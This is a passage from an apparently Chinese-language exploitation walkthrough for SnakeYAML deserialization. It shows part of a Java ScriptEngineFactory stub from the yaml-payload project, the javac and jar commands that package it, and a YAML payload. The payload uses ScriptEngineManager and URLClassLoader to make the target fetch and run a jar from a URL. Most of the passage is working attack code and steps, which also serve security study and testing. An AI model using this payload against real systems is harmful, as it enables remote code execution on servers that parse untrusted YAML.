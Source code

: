     @Override 
    public List<String> getNames() { 
    return null; 
    } 
     @Override 
    public String getLanguageName() { 
    return null; 
    } 
     @Override 
    public String getLanguageVersion() { 
    return null; 
    } 
     @Override 
    public Object getParameter(String key) { 
    return null; 
    } 
     @Override 
    public String getMethodCallSyntax(String obj, String m, String... args) { 
    return null; 
    } 
     @Override 
    public String getOutputStatement(String toDisplay) { 
    return null; 
    } 
     @Override 
    public String getProgram(String... statements) { 
    return null; 
    } 
     @Override 
    public ScriptEngine getScriptEngine() { 
    return null; 
    } 
    }
    

把[https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)下载下来，取其中src部-
对上面java代码进行打包，在javac.exe下进行编译

    javac src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .
    

![图片.png](https://image.cubox.pro/article/2022103016293279732/32038.jpg)-
![图片.png](https://image.cubox.pro/article/2022103016293261417/42489.jpg)-
随后将以下内容传递给参数即可。

    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://localhost/yaml-payload.jar"]
      ]]
    ]
    